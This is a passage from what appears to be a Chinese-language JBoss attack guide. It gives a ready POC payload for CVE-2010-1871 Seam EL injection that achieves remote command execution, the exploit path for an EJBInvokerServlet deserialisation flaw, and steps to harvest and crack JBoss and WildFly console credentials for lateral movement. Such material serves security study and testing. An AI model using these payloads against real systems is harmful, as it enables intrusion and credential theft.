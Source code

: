 #### 漏洞利用

跟CVE-2015-7501利⽤⽅法⼀样，只是路径不⼀样，这个漏洞利⽤路径
是 `/invoker/EJBInvokerServlet`

## JBoss seam2模板注入

### CVE-2010-1871

#### 漏洞描述

`JBossSeam`是一个`JavaEE5`框架，把JSF与`EJB3.0`组件合并在一起，从而为开发基于Web的企业应用程序提供一个最新的模式。`JBossSeam`处理某些参数化`JBossEL`表达式的方式存在输入过滤漏洞。如果远程攻击者能够诱骗通过认证的`JBossSeam`用户访问特制的网页，就可能导致执行任意代码。

#### 影响版本

Redhat Jboss_enterprise_application_platform:4.3.0 

#### 漏洞利用

1、此漏洞是通过`seam`组件中插入`#{payload}`进行模板注入，可以在以下链接中插入要执行的方法，通过Java反射机制来获取到（`Java.lang.Runtime.getRuntime().exec()`方法）,从而可以传入任何想要执行的命令。

```
/admin-console/login.seam?actionOutcome=/success.xhtml?user%3d%23{}的#{}
```

2、POC如下，其中cmd代表传入的远程命令。在`/admin-console/login.seam`路径下，POST传入构造好的`payload`，即可对此漏洞利用。

```
actionOutcome=/success.xhtml?user%3d%23{expressions.getClass().forName('Java.lang.Runtime').getDeclaredMethod('getRuntime').invoke(expressions.getClass().forName('Java.lang.Runtime')).exec(cmd)}
```

## 其它漏洞与利用

### Jboss 7.x与WildFly控制台用户密码hash破解

搜集`jboss`中的所有密码,可以为后续内网横向移动提前做好准备
在7.x以下的版本，jboss用户密码通常默认都是直接明文保存在下面的文件中的

```
C:\Users\tale\Desktop\jboss-4.2.3.GA\server\default\conf\propsjmx-console-users.properties
```

![image.png](jboss_getshell.assets/1592147160_5ee63cd88e9da.png!small)

而高版本的`jboss`和`wildfly`通常都是加密保存在下面的文件中,默认密码加密格式为 
`HEX( MD5( username ':' realm ':' password))`

```
C:\services\wildfly-10.1.0.Final\standalone\configuration\mgmt-users.properties
```

`john`也对此算法支持,编号为`1591`，可以对其进行破解
